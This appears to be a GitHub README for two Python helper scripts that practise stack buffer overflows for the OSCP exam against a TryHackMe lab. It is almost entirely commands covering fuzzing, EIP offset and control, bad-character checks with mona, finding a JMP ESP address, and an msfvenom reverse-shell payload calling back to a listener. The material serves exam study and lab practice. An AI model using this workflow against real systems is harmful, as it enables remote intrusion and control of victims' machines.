 ### qbof: Quickly crack simple stack based buffer overflows

Created while preparing for OSCP to crack BOF in under 20 minutes.
These 2 python scripts is all we need.

Highly recommend the buffer overflow prep room on tryhackme to practice bof.

Need pwntools for pattern create functionality
```
pip install --user pwntools
```

### Fuzzing
```
# Fuzz with a range to find crash point
python fuzzer.py --ip {{ip}} --port {{port}} --prefix "OVERFLOW1 " --range "100-2100" --range-step 100

# Confirm crash by sending fix size payload
python fuzzer.py --ip {{ip}} --port {{port}} --prefix "OVERFLOW1 " --size 2100

# Send a unique pattern instead of just AAAA
python fuzzer.py --ip {{ip}} --port {{port}} --prefix "OVERFLOW1 " --size 2100 --pattern

# find offset by providing the EIP address value like this
python fuzzer.py --find-offset "61 75 74 61"
```

### Test EIP
```
# Test we can controll EIP by sending BBBB by default into it
python eipcontroller.py  --ip {{ip}} --port {{port}} --prefix "OVERFLOW1 " --offset {{1978}}
```

### Find Bad Chars
```
!mona config -set workingfolder c:\mona

# generate hex array using mona to compare with the payload array
!mona bytearray -cpb "\x00"

# Send full_hex array to compare and look for bad chars
python eipcontroller.py  --ip {{ip}} --port {{port}} --prefix "OVERFLOW1 " --offset 1978 --check-bad-chars

# compare from the start address of full_hex array in DUMP
!mona compare -f c:\mona\PROJECT\bytearray.bin -a {{ESP VALUE + NOP ADDR}}
# Example !mona compare -f C:\mona\oscp\bytearray.bin -a 0189FA30

# Example badchar compare output
# 00 07 08 2e 2f a0 a1
# Only the first ones are confimed bad chars.   00 07 2e a0
# try only excluding those then test if aything new pops in diff between payload and initially generated bytearray.bin

```

### Find JMP ESP Instruction
```
# find jmp esp or equivlent in all modules excluding bad chars
# make sure memory address and payload doesn't have bad chars in it
!mona jmp -r esp -cpb "\x00\x{{BADCHARS}}"
# exmaple !mona jmp -r esp -cpb "\x00\x07\x2E\xA0"
```

### Put and Test JMP ESP Address into EIP
```
# REVERSE THE ADDRESS TO MAKE IT LITTLE ENDIAN
# Example 0x625011af from mona output to "\xAF\x11\x50\x62"
# MANULLAY PUT IT IN eipcontroller.py
eip = "\xAF\x11\x50\x62"

# Create a break point on the found address in immunity
-> | black dotted line > Search address "625011af" > Select then F2 for breakpoint

# Test it's there
python eipcontroller.py  --ip {{ip}} --port {{port}} --prefix "OVERFLOW1 " --offset 1978

```

### MSFvenom Payload and GG
```
msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=10.17.12.88 LPORT=443 EXITFUNC=thread -b '\x00\x07\x2E\xA0' -f c

# MANULLAY PUT IT IN eipcontroller.py
buf = "PAYLOAD"

python eipcontroller.py  --ip {{ip}} --port {{port}} --prefix "OVERFLOW1 " --offset 1978 --nop 32
```




